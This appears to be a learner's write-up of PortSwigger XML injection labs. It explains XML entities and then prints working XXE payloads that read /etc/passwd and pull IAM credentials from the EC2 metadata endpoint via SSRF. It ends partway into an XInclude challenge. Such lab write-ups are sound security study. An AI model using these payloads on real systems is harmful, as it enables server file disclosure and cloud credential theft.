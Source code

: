 ### XML-INJECTION (Portswigger labs)


### <u>Meaning of XML injection </u>
   XML means extensible markup language.It is a form of language designed for storing data and transporting data.It uses a tree-like structure for data storage.
It does not use predefined tags like html.Data can be given to describe the data.Xml applies important elements like xml entities,xml elements and
document type definition(DTD).The document type definition allows custom entities to declared within the declaration.There are two forms of custom entity.
- Custom Entities
- Custom External Entities
### Custom entities
For example

     <!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
The value "my entity value" can be called with &myentity;
### Custom External entities
  External entities will lead us to the first portswigger challenge.This form of custom entities is declared outside the declaration.The example given below uses the keyword SYSTEM which requires a value in url format e.g file:/// url wrapper to load custom external entities.
For example

     <!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
The file url can be used to read files like /etc/passwd etc

### Challenge 1

Challenge description: Read /etc/passwd by  exploiting XXE(XML External Entity)

![2023-10-18_14-29](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ab0f3280-ed81-4eb6-9059-916666c14bc2)

- I explored the site functionalities and I noticed that the site requests data was xml based.

  ![2023-10-18_20-56](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/8a1000e6-653c-4296-b08e-7770d7d49c9d)

- I intercepted the check stock request with burpsuite and sent it to the repeater

![2023-10-18_20-59](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4d1cc80c-59a1-4b81-9f77-089634fb91fe)

- To read the file "/etc/passwd", I used this payload from hacktrickz.com

       <?xml version="1.0" encoding="UTF-8"?>
       <!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
        <stockCheck><productId>
         &example;
        </productId><storeId>1</storeId></stockCheck>
    
- And I got this a response from the server showing the contents of the /etc/passwd file
  
![2023-10-18_21-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6252eb19-98b1-4895-8fc0-1585b75c71ea)

- I right clicked on the repeater and showed response in browser and that was how I solved the first challenge

![2023-10-18_21-18](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e722aebe-a491-472b-8447-c14e3e14bf20)

### Challenge 2

Challenge description: Exploiting XXE to get SSRF attacks

![2023-10-18_21-25](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d805517a-8684-402e-b21d-ee368336884e)

- From the challenge description,It was stated that the "check stock" feature parses xml input.I intercepted the the request

![2023-10-18_21-33](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3b38d8ca-55f9-4e6c-9bb3-cbba95a42e38)

- I used this payload to get the secret token of the Amazon Ec2 metadata instance

       <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE foo [<!ENTITY example SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
      <stockCheck><productId>&example;</productId><storeId>1</storeId></stockCheck>

- I got this response

![2023-10-18_21-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6dda8f15-06c7-42f5-a078-ef7a4ce4521d)

- Challenge solved

![2023-10-18_21-50](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/208c1e52-9adc-409d-a780-9b080b868849)

### Challenge3
Challenge description: Exploit Xinclude to retrieve file /etc/passwd

![2023-10-18_22-04](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6cdf1414-094c-48d2-a538-7626255a7b97)
